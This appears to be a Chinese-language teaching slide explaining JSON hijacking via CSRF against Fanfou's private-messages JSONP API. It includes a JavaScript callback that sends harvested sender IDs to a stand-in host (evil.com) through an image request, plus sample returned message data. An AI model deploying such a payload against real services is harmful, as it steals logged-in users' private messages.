

CSRF跨站请求伪造——JSON HiJacking攻击例子
自定义一个JSON HiJacking页面，包含如下JavaScript代码：

<script>
function hijack(o) { // 自定义的劫持函数
     var i = 0;
     var data = '';
     for (i; i < 3; i++) {
          data += o[i].sender_id
     }
     alert(data);

     new Image().src = "http://www.evil.com/JSONHiJack.php?hi=" + escape(data);
     // 将获取到的隐私数据上传到攻击者服务器上
}
</script>

<script src=http://api.fanfou.com/private_messages/inbox.json?callback=hijack&count=1>
</script>
<!--api调用中使用的callback函数为hijack-->
当登录饭否的用户被欺骗访问这个页面时，其隐私将暴露无遗。
1、第一个<script>标签内的脚本是我们自定义的劫持函数 hijack

2、第二个<script>标签加载饭否的private_messages API，这个加载过程实际上是发出了一个CSRF GET请求，请求带上了登录用户的Cookie身份认证信息。

3、返回的数据如下：
     hijack([{
          "id": 585904,
          "text": "...",
          "sender_id": "Salina_Wu",
          "recipient_id": "ycosxhack",
          "created_at": "Sat May 31 05:00:01 +0000 2008",
          "sender_screen_name": "LOLO",
          "recipient_screen_name": "余弦"
     }])

4、返回的数据被当做 JavaScript 代码而被解析执行，这时就会执行这个 hijack 函数，参数就是上面hijack()中的这段JSON数据。